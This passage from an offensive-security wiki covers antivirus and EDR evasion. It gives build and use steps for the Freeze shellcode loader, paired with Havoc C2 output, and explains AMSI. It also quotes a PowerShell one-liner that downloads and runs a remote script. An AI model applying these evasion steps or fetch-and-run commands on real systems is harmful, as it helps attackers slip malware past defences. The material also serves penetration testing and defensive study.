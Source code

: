 ## [**Freeze**](https://github.com/optiv/Freeze)

`Freeze is a payload toolkit for bypassing EDRs using suspended processes, direct syscalls, and alternative execution methods`

You can use Freeze to load and execute your shellcode in a stealthy manner.

```
Git clone the Freeze repo and build it (git clone https://github.com/optiv/Freeze.git && cd Freeze && go build Freeze.go)
1. Generate some shellcode, in this case I used Havoc C2.
2. ./Freeze -I demon.bin -encrypt -O demon.exe
3. Profit, no alerts from defender
```

![](../images/freeze_demo_hacktricks.gif)

> [!TIP]
> Evasion is just a cat & mouse game, what works today could be detected tomorrow, so never rely on only one tool, if possible, try chaining multiple evasion techniques.

## AMSI (Anti-Malware Scan Interface)

AMSI was created to prevent "[fileless malware](https://en.wikipedia.org/wiki/Fileless_malware)". Initially, AVs were only capable of scanning **files on disk**, so if you could somehow execute payloads **directly in-memory**, the AV couldn't do anything to prevent it, as it didn't have enough visibility.

The AMSI feature is integrated into these components of Windows.

- User Account Control, or UAC (elevation of EXE, COM, MSI, or ActiveX installation)
- PowerShell (scripts, interactive use, and dynamic code evaluation)
- Windows Script Host (wscript.exe and cscript.exe)
- JavaScript and VBScript
- Office VBA macros

It allows antivirus solutions to inspect script behavior by exposing script contents in a form that is both unencrypted and unobfuscated.

Running `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')` will produce the following alert on Windows Defender.

